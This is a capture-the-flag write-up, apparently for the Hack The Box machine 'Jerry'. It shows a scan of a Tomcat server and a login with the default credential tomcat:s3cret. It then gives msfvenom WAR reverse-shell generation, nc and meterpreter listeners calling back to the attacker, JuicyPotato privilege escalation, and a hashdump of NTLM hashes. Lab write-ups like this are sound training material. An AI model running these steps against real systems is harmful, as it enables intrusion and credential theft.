

# Jerry

## Machine Info


## Recon

### Port

```console
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Microsoft Windows 7 (85%)
OS CPE: cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
```

## Foothold

### Tomcat Default Credential

Discover a successful login (`/manager`) through credential: `tomcat:s3cret`


Generate war reverse shell by msfvenom and deploy it as manager-gui:

```console
└─╼$ msfvenom -p java/jsp_shell_reverse_tcp lhost 10.10.16.24 lport 1234 -f war -o reverse.war
Payload size: 505 bytes
Final size of war file: 505 bytes
Saved as: reverse.war
```



Receive shell by nc:

```console
└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.24] from (UNKNOWN) [10.129.191.245] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeAuditPrivilege                Generate security audits                  Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

## Privilege Escalation

**Systeminfo**:

```console
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
System Type:               x64-based PC
```

**JuicyPotato Exploit**:

```console
c:\qwe>JuicyPotato.exe -t * -p admin.exe -l 9090
JuicyPotato.exe -t * -p admin.exe -l 9090
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9090
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

-----------------------------------------------------------------------------

└─╼$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.16.24; set lport 6666; exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.10.16.24
lport => 6666
[*] Started reverse TCP handler on 10.10.16.24:6666
[*] Sending stage (200774 bytes) to 10.129.191.245
[*] Meterpreter session 1 opened (10.10.16.24:6666 -> 10.129.191.245:49200) at 2024-02-20 16:17:25 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fe34b627386c89a49eb254f6a267e4d9:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Exploit Chain

port scan -> tomcat login with default credential -> upload application by generated war revshell -> user shell -> SeImpersonatePrivilege & Windows Server 2012 -> Juicy Potato PrivEsca -> system priv shell
